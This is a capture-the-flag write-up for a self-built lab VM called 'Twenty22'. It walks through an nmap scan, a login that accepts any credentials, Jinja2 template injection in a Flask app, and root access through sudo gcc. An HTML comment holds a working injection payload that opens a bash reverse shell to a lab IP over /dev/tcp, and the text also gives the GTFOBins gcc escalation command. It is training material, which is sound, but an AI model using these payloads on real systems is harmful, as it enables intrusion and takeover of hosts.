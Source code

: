 ```yaml
---

title: Writeup for Twenty22

date: 2022-01-20 07:39:05 +0200

categories: [Build vulnerable VMs,Writeup for Twenty22]

tags: CTFtime

---
```


### Nmap

```js
PS E:\> nmap -sC -sV 10.10.10.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 07:03 India Standard Time
Nmap scan report for 10.10.10.101
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9f:5a:7c:82:c0:2e:e1:c9:57:b5:7d:66:04:e9:31:0e (RSA)
|   256 02:90:6e:33:7a:b2:53:83:a6:0f:2f:16:93:94:a1:96 (ECDSA)
|_  256 cf:8b:32:62:3d:22:79:8b:2b:f0:9f:f0:94:87:24:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Twenty22 | Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:C3:C3:3D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds
```
- There're two ports opened, 22 has ssh and 80 has an apache webserver
- Let's visit the web page

### Website
![login-page](https://i.imgur.com/sPx1JbN.png)
- Here's a login page, but we don't have any credentials
- Let's try with `admin:admin`

![welcome-admin](https://i.imgur.com/4QPXx0u.png)
- It worked, let's try with other credentials, for example `test:test` 

![test-test](https://i.imgur.com/GaMTlpo.png)
- I think there's no login check, it simply logs us in with any credentials
- And our username is reflecting here `[ Welcome test, It's late the CTF has ended ]`
- Let's enum other pages

### CTF site
- This is a mini CTF site
- Sadly the CTF has ended
- There are two web challenges, which still active
- But it's not hosted inside this machine, Its publicly hosted so we can't make use of that challenges
- There's a scoreboard and users pages
- This page uses a cookie `user:test`
- Our username will be stored there
- Nothing interesting than our reflected input and cookies

![static](https://i.imgur.com/tDGnVnP.png)
- By viewing the source there's a folder name `static`
- So let's try for **SSTI** 

#### SSTI
- I used ![7*7](https://i.imgur.com/b8rE1NY.png) as my username

![ssti](https://i.imgur.com/vDKsJQA.png)

- It works :D
- So this is a flask app has SSTI
- Let's try to get a reverse shell

![rev-payload](https://i.imgur.com/oO8kGam.png)
<!--{{config.__class__.__init__.__globals__['os'].popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.85.203/1337 0>&1"').read()}} -->

![shell as www-data](https://i.imgur.com/2t8obfL.png)
- Cool we got shell :D

### User part
![credentials-pwn](https://i.imgur.com/elLKb0X.png)
- We can't see user.txt but we got credetials for pwn user
- There's a todo.txt in `/home/pwn` and a password is there
- Let's try this to login as `pwn`

![user.txt](https://i.imgur.com/NkC2IZ6.png)
- Nice we got user
- Let's upgrade our shell

### Root part
![sudo -l](https://i.imgur.com/ce66c7y.png)
- By running `sudo -l` we can see that `pwn` user can run `/usr/bin/gcc` with sudo

![gtfobins](https://i.imgur.com/SkM5TJg.png)
- Quickly I searched in gtfobins and it has gcc

![sudo gcc](https://i.imgur.com/PkdeFP1.png)
- Let's run this command 

`sudo gcc -wrapper /bin/sh,-s .`

![rooted](https://i.imgur.com/eFP7fHl.png)
- Cool we rooted :D
- That's all guys, I hope you liked this box <3 
- See my previous post [How to create vulnerable VM](https://jopraveen.me/posts/create-vulnerable-vm/)
